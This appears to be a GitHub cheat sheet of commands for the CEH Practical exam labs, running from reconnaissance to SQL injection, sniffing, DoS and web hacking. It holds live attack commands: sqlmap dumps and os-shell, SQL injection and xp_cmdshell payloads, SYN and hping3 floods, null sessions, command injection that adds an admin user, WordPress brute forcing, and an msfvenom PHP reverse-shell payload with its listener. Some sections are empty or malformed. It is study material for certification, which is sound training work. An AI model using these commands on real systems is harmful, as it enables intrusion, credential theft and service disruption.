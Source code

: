 ## 2)Footprinting and Reconnaissance
<details>
    <summary> Reconnasiance/Footprinting</summary>
<details>
    <summary> 1) Windows CLI tools </summary>

```bash
$ ping <ip>
 or 
$ ping www.domain.com
```
````console
$ ping <host-ip> -f -l 1300
````
```bash
$ nslookup <domain.com>
```
```bash
$ tracert <doamin>

$ traceroute <host-ip>
```
</details>


### 2)Edit,Debug and monitor
<details>
    <summary> 2)Firebug </summary>
    
- Firebug extension Integrated with Firefox
  
</details>

### 3)Mirroring website:
<details>
    <summary> Mirroring</summary>
    
- Windows: HTTrack

- Linux: wget
```bash
 $ wget <url-of-website>
``` 
#### Note:- check wget -h for options

</details>

### 4)Advance route tracing 
#### Tool: Path Analyzer Pro

<details>
    <summary> 5)Information Gathering Using Metasploit</summary>

#### Extract accurate information about a network using Metasploit Framework.

```bash
$ service postgresql start
```
```bash
In msf type 
$db_status
```
If error then exit and type below commands
- To initialize database
```
$ msfdb init
```
```
$ service postgresql start
```
relaunch metasploit Framework
```
$ msfconsole
$ db_status
$ nmap -Pn -sS -A -oX <output_file> <subnet(xx.xx.xx.x/24)>
```
you can use different options and also remove some options
```
$ hosts
```
to get host information

```
$ use auxilliary/scanner/smb/smb_version
or 
$ use /scanner/smb/smb_version
$ show options
$ set RHOSTS xx.xx.xx.8-16
$ set THREADS 1000
$ run 
```
- Now you can see the os_flavor 
- Hence Extracted information about network using metasploit
</details>
</details>

## 3)Scanning Networks
<details>
    <summary>Scanning Networks</summary
- Port Scanning using Hping3:

```bash
hping3 --scan 1-3000 -S 10.10.10.10
```
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
```
hping3 -c 3 10.10.10.10
```
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
```
hping3 10.10.10.10 --udp --rand-source --data 500
```
- TCP SYN request
```
hping3 -S 10.10.10.10 -p 80 -c 5
```
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
```
hping3 10.10.10.10 --flood
``` 

-  ### Tools:
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/248179ca-8bb3-4bf4-ba33-c6520e0054df)

</details>


## 4)Enumeration
<details>
    <summary>Enumeration</summary>

###  1) NetBios Enumeration
#### Tool: Global Network Inventory
- Audit Scan Mode >> Select IP range >> Authentication setting >> connect as windows 12(victim) server using credentials that is currently logged on
- The Scan Summary tab displays a brief summary of machine that has been scanned. It will shows you the Machine name, MAC Address, OS installed, and etc.
- User groups,Services,Installed Softwares etc can be seen in the scan summmary.
  
### 2) Network Resources
#### Tool: Advanced IP Scanner  
- Enumerate network resources using Advanced IP Scanner.
- Perform a system ard network scan, Enumerate user accounts, Execute remotepenetration, Gather information about local network
- Input range of IP
- Now you have the IP address, Name, MAC address, and Manufacturer information of the victim machine.

### 3) Network enum using superscan
#### Tool: Superscan
- Lists of computers that belong to a domain
- Lists Of shares on the individual hosts on the network
- Policies and passwords
- Enter hostname/IP/URL >> select Enumeration type >> and see the scan result for required information.

### 4) Resurces in Local machine
#### Tool: Hyena
- Click '+' node of local workstation to expand section.
- select different nodes to view their information
- Users, Services, User Rights, Scheduled jobs

### 5) SMB ENumeration
#### Tools: nbstat,nmap

- In windows 12
```bash
nmap -O <win-12-ip>
```

```bash
nbstat -A xx.xx.xx.xx  //perform nbstat scan on port 139 in cmd
net use
net use \\xx.xx.xx.xx\e ""\user:""
net use \\xx.xx.xx.16\e""/user:""  //create null session 
// xx.xx.xx.16 is windows server 16
```
- disconnect drive Z
-this creates a null session 
- confirm by using
```bash
net use // session with name e would have been created
```


##### Note: Your first target is the computer with a Windows OS on which you can see ports 139 and 445 open. Remember, this usually works only against Windows but may partially succeed if other OSs have these ports open. There may be more than one system with NetBIOS open. You see that ports 135. 139.445. etc. are open and port 139 is using NetBIOS.

  ### 6) Some other tools
#### Tools:
- NetBIOS Enumerator
- SoftPerfect Network Scanner

</details>

## 5) Vulberability Analysis
<details>
    <summary>Vulnerability Analysis</summary>

### Nessus Vulnerability Scanner
-
```bash

```
### Nikto
-
```bash
nikto -h url -Cgidirs all
```
</details>

## 17) Android Hacking
<details>
    <summary>Android Hacking</summary>

    
### ADB
```bash
netdiscover -r xx.xx.xx.xx/24
nmap -O xx.xx.xx.4
apt-get update
apt-get install adb -y
```

- Use
```bash
adb devices -l
adb connect xx.xx.xx.4:5555 //5555 is port of android discovered in 'nmap -O' scan
adb shell // 'To get shell access'
```
- You can run commands like

```bash
pwd
cd
ls
echo
```

#### Download a File from Android using ADB tool
```bash
adb pull /sdcard/log.txt C:
adb pull sdcard/log. txt /home/murphy/Desktop
```

### Phonesploit
- Refer README.md
  
</details>

## 15) SQL Injection

<details>
    <summary>SQL Injection</summary>
    
- ### SQLMAP Extract DBS
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
```
- ### Extract Tables
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
```
- ### Extract Columns
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
```
- ### Dump Data
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
```
- ### OS Shell to execute commands
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
```
- ### Login bypass
```bash
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- 
```
</details>

## 8) Sniffing
<details>
    <summary> Wireshark</summary>
      - Some useful wireshark command 
```
filter : http
option --> find packet->> select string --> pwd  // to find pwd string in packets
```
=======================================================================================================================================================================
- Sets a filter for any packet that has x.x.x.x as the source or destination IP address. This is very useful if, let’s say, you want to analyze specific traffic. Applying this filter helps you analyze outgoing traffic to see which one matches the IP or source you’re looking for.
```
ip.addr == x.x.x.x
``` 
 
- You can also choose to use ``` ip.dst == x.x.x.x```  to filter only by destination or ``` ip.src == x.x.x.x ``` to filter by source.
 
- Sets a conversation filter between two specific IP addresses. This one helps you check the data between two specific hosts or networks. It helps you when you are looking for specific data, so you don’t have to go through others that don’t interest you. 
 ```
ip.addr == x.x.x.x && ip.addr == x.x.x.x 

(or ip.src == xxxx && ip.dst == xxxx - for a destination)
``` 

Sets a filter to display all http and dns protocols. It lets you narrow down to the exact protocol you need. So, if you need to track down an odd FTP traffic, then you just have to set it for ‘ftp’. Want to find out why some websites don’t appear? You just have to set it to ‘dns’.
```
http or dns
```


tcp.port==xxx

Sets filters for any TCP packet with a specific source or destination port. Sometimes is just useful and less time consuming to look only at the traffic that goes into or out of a specific port.

 
- Sets filters to display all TCP resets. All packets have a TCP, if this is set to 1, it tells the receiving computer that it should at once stop using that connection. So, this filter is a powerful one, being that a TCP reset kills a TCP connection immediately.
- 
tcp.flags.reset==1



 

tcp contains xxx

It’s a filter that displays all TCP packets that contain a certain term (instead of xxx, use what term you’re looking for). For example, if you are looking for a specific term appearing in the packet, this filter is what you need.

 
- Follows a tcp stream.
```
tcp.stream eq X
```

- Filters by sequence number.
```
tcp.seq == x
```
 
- Important for troubleshooting, this filter detects push events.
``` 
tcp.flags.push == 1
```

- This one filters all HTTP GET and POST requests. It can show the most accessed webpages.
````
 http.request
 ````

- Designed to filter out certain types of protocols, it masks out arp, icmp, dns, or other protocols you think are not useful. This will allow you to focus of what traffic interests you.
```
 !(arp or icmp or dns)
 ```

- It sets a filter for certain HEX values at any offset.
```
udp contains xx:xx:xx
```


 
- Indicates which dns requests couldn't be correctly resolved.
 ```
dns.flags.rcode != 0
 ```

</details>

</details>


## 9)Social Engineering
<details>
    <summary>Social</summary>

### Tool: Social Engineering Toolkit(linux)

</details>

## 10)DOS
<details>
    <summary>
        DoS 
    </summary>
- Spoof IP
- SYN Flooding
```
use auxiliary/dos/tcp/synflood
show options
SYN flooding on port 4444
set timeout 20000 //rest as shown in option
```
   
</details>

## 11)Session Hijacking
<details>
    <summary>Session Hijacking</summary>


</details>

## 14)Web Application Hacking
<details>
    <summary> Web Hacking</summary>
    
### 1) Parameter Tampering
    - Changing ?id=1 or 2 or 3 to switch user.
### 2) XSS
      - In cotactact us page i the commrent section post the following script `<script>alert("You are Hacked")</script>`

### 3) WPScan
- SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

- Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
    
```
### 4) RCE
- In DVWA application to ping.
```bash
| hostname  //name of target machine
| whoami   // user,groups,privileges
| tasklist  //lists running process
| dir C:\
| net user
| net user Test /Add
| net user 
| net user Test //displays info about user Test
| net localgroup Administrators Test /Add
| net user Test //now it's in Administrator

```
- To launch Remote Desktop Connection, navigate to ```Start--> Windows Accessories--> Remote Desktop Connection```

### 5)Web Application Framework
<details>
<summary> Auditing </summary>

#### Tools: Vega(Linux)
- Enter URL --> select Injection and Response modules --> click yes --> check Scan summary


###  WVS 
#### Tool: Acunetics WVS

</details>

### 6) File Upload Vulnerbility
-  ``` msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw ```  
- This command will generate a php raw payload.
- copy the payload and make a .php file
-  ```msfconsole``` . Now you have to establish a meterpreter session with your victim
```
Type use multi/handler and hit Enter.
Type set payload
php/meterpreter/reverse_tcp and hit
Enter.
Type set lhost 10.10.10.11 and hit Enter.
set Iport 4444
and hit Enter.
- vist the uri where the file is to execute on web browser
```
</details>



## 18)IOT Hacking
<details>
    <summary>IOT</summary>
    
### Tools:
- Shodan.io

- CRITIFENCE
```
 CRITIFENCE is an online database that stores default passwords of critical infrastructure, SCADA, [CS, and 110T Attackers can use this tool to discover
the default credentials of an OT system It lists information such as product code, vendor, device type and its default username and password
  ```
- Nmap
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/dbe2d60e-4af9-4376-b4ed-baa7e21dee5d) // nmap different types of scans.

- Scada
    - SCADA Shutdown Tool is an ICS testing and automation tool that allows attackers to fuzz, scan, and run remote commands on ICS/SCADA networks and controllers
    - Attackers use this tool to examine and enumerate slave controllers and SCADA security systems as well as read register values of the controller and rewrite register data.
      
- #### Other Tools
      - Nessus
      - wireshark
</details>

## 20)Cryptography
<details>
    <summary>Cryptography</summary>
</details>

## Host DIscovery
<details>
    <summary>Hsot Discover</summary>
```
ARP Ping Scan:           nmap -sn -PR <Target IP Address>    ARP request probe
UDP Ping Scan:           nmap -sn -PU <Target IP Address>    UDP request
ICMP ECHO Ping Scan:     nmap -sn -PE <Target IP Address>    ICMP LCBO request

</details>

#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>
  
- [Reference Guide](https://certmaster.me/a-detailed-guide-on-responder-llmnr-poisoning-22f3a07b9786?gi=809a695ee049):

  </details>
